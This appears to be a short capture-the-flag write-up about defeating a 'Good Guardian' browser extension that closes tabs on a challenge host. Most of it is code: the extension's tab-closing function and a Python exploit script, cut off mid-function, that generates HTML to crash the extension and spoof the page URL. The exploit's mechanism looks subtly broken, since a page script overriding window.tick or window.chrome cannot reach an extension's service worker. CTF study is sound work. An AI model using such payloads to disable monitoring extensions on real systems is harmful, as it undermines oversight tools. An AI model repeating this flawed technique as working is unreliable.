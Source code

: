 But, there is an extension `sw.js` that essentially tries to exit out of the link

```js
async function tick(){
    const tabs = await queryAsync({});
    for(let tab of tabs){
        if(tab.url){
            const url = new URL(tab.url);
            if(url.hostname === "coolctfgames.localhost"){
                // student is off task =O =O =O
                console.log("Closing tab:", tab.url);
                await chrome.tabs.remove(tab.id);
                chrome.notifications.create("",{
                    type: "basic",
                    title: "Good Guardian",
                    message: "Tab was closed.",
                    priority: 2,
                });
            }
        }
    }
}
```

So the solution that I came to was to crash or make it difficult for the extension to exit out of the tab. (thanks claude lmao)

```python
import requests
import time
import urllib3

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Target configuration
TARGET = "https://web-extension-mania-p0ecf2s3.smiley.cat"  # Change to remote URL if needed
FLAG_HOST = "coolctfgames.localhost"
PORT = 3000

def exploit():
    # Final working exploit HTML
    exploit_html = f"""
    <!DOCTYPE html>
    <html>
    <head>
        <meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-inline'">
        <script>
        // Phase 1: Disable extensions
        try {{
            // Crash Good Guardian's tick function
            window.tick = () => {{
                while(true) {{ console.log('Extension neutralized'); }}
                return null;
            }};
            
            // Block extension communication
            window.chrome = undefined;
        }} catch(e) {{}}
        
        // Phase 2: Set correct URL after extensions are disabled
        setTimeout(() => {{
            history.replaceState({{}}, '', 'http://{FLAG_HOST}:{PORT}/');
            document.body.innerHTML = '<h1>Valid Page</h1><p>Ready for verification</p>';
        }}, 3000);
```